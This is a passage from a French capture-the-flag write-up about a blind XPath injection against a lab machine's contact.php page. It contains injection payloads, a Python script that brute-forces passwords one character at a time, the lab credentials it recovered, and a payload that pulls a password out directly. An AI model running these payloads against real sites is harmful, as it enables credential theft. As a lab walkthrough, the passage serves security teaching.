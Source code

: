On obtient les colonnes *username*, *email* et *clave* ce qui est un début.  

Malheureusement les classiques mots clés SQL (union, select) ne sont d'aucune aide. Un coup d’œil sur le *phpinfo()* récupéré plus tôt montre sous la section *DOM* que *XPATH* est supporté... indice :)  

Il existe [différents](http://securityidiots.com/Web-Pentest/XPATH-Injection/Basics-of-XPATH-for-XPATH-Injection-part-2.html) [documents](https://dl.packetstormsecurity.net/papers/bypass/Blind_XPath_Injection_20040518.pdf) concernant l'injection XPATH mais le plus complet reste bien sûr [la documentation XPATH](https://www.w3.org/TR/xpath/) elle-même.  

Armé de notre injection de condition on peut avoir extraire différentes informations dans ce style :  

```plain
and substring(username,1,1)='e'
and string-length(username)=10
and string-length(clave)=11
```

Brute-forcer les caractères des mots de passe n'est pas bien compliqué :  

```python
import requests
import string

url = "http://signal8.darknet.com/contact.php?id=1%20and%20substring(clave,{0},1)='{1}'"

sess = requests.session()

password = ""
for i in range(1,12):
    for c in string.ascii_letters + string.digits:
        r = sess.get(url.format(i, c))
        if "devnull" in r.text or "errorlevel" in r.text:
            password += c
            break
    else:
        password += "?"
print password
```

On obtient les identifiants pour le *xpanel* :  

```plain
devnull j4tC1P9aqmY
errorlevel tc65Igkq6DF
```

J'ai tout de même joué un peu plus avec XPATH et on peut par exemple remonter jusqu'à la node root (le premier tag du fichier XML) et obtenir la longueur de son nom via *and string-length(name(parent::node()))=4* et brute forcer à nouveau pour trouver *auth*.  

J'ai aussi trouvé une façon d'obtenir directement le mot de passe en passant *id=1]/clave | //user[id=3*. Cela remonte le résultat de la première requête (valide) mais pas de la suite.  

Ce qu'il aurait fallut pour explorer facilement le XML serait un opérateur de concaténation + au lieu de la fonction *concat()* et ses parenthèses.  
